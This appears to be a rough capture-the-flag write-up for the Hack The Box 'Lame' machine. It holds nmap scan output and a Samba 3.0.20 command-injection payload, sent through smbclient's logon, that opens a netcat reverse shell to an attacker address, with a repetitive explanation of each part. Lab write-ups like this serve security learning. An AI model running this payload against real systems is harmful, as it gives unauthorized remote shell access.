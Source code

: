   

```JavaScript
  vsftpd 2.3.4
  OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
  smbd 3.0.20-Debian 
  Samba 3.0.20-Debian
  find . -name user.txt -exec cat {} \;
  
```

  

```JavaScript
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.16.12 4444`" 

```

The command `logon "./=`nohup nc -e /bin/sh 10.10.16.12 4444`"` attempts to exploit a vulnerability in an SMB server by executing a reverse shell using netcat. This type of attack is known as command injection. Here's a breakdown of what this command does:

- `**logon "./=**`**nohup nc -e /bin/sh 10.10.16.12 4444**`**"**`: This command tries to log on to the SMB server with a specially crafted username that includes a command injection payload.
- `**nohup nc -e /bin/sh 10.10.16.12 4444**`: This is the payload that gets executed on the target server:
    - `**nohup**`: This command allows the command to continue running in the background even after the user has logged out.
    - `**nc -e /bin/sh 10.10.16.12 4444**`: This uses netcat to open a reverse shell:
        
        - `**nc**`: The netcat utility, often referred to as the "Swiss Army knife" of networking, is used for reading from and writing to network connections using TCP or UDP.
        - `**e /bin/sh**`: Executes the shell.
        - `**10.10.16.12**`: The attacker's IP address where the reverse shell will connect.
        - `**4444**`: The port on the attacker's machine to connect to.
        
        1. `**logon "./=**`: This part of the command is used to inject the payload into the SMB server. The `logon` command is used within `smbclient` to authenticate with the SMB server. The string `"./="` is a specially crafted username that includes the command injection payload.
        2. ``**`nohup nc -e /bin/sh 10.10.16.12 4444`**``: This is a command substitution in Unix-like shells. Anything within the backticks (`` `...` ``) is executed by the shell, and the output is substituted in place. Here’s a breakdown of the command inside the backticks:
            - `**nohup**`: This command is used to run another command in the background, ignoring hangup signals. It allows the command to continue running after the user logs out.
            - `**nc -e /bin/sh 10.10.16.12 4444**`: This part uses netcat to create a reverse shell:
                - **++__++**`**nc**`: Netcat command, used for networking tasks.
                - `**e /bin/sh**`: Executes the shell `/bin/sh` when the connection is made.
                - `**10.10.16.12**`: The attacker's IP address where the reverse shell will connect.
                - `**4444**`: The port on the attacker's machine to connect to.
        

  

  

Not shown: 996 filtered tcp ports (no-response)  
PORT STATE SERVICE VERSION  
21/tcp open ftp vsftpd 2.3.4  
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)  
| ftp-syst:  
| STAT:  
| FTP server status:  
| Connected to 10.10.16.12  
| Logged in as ftp  
| TYPE: ASCII  
| No session bandwidth limit  
| Session timeout in seconds is 300  
| Control connection is plain text  
| Data connections will be plain text  
| vsFTPd 2.3.4 - secure, fast, stable  
|_End of status_  
_22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)_  
_| ssh-hostkey:_  
_| 1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)_  
_|_ 2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)  
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
445/tcp open netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

_++_Host script results:  
|_clock-skew: mean: 2h00m21s, deviation: 2h49m45s, median: 19s_  
_| smb-os-discovery:_  
_| OS: Unix (Samba 3.0.20-Debian)_  
_| Computer name: lame_  
_| NetBIOS computer name:_  
_| Domain name: [hackthebox.gr](http://hackthebox.gr/)_  
_| FQDN: [lame.hackthebox.gr](http://lame.hackthebox.gr/)_  
_|_ System time: 2024-07-06T13:20:37-04:00  
|_smb2-time: Protocol negotiation failed (SMB2)_  
_| smb-security-mode:_  
_| account_used: guest_  
_| authentication_level: user_  
_| challenge_response: supported_  
_|_ message_signing: disabled (dangerous, but default)

  

  

  

  

_**+**__+++++++++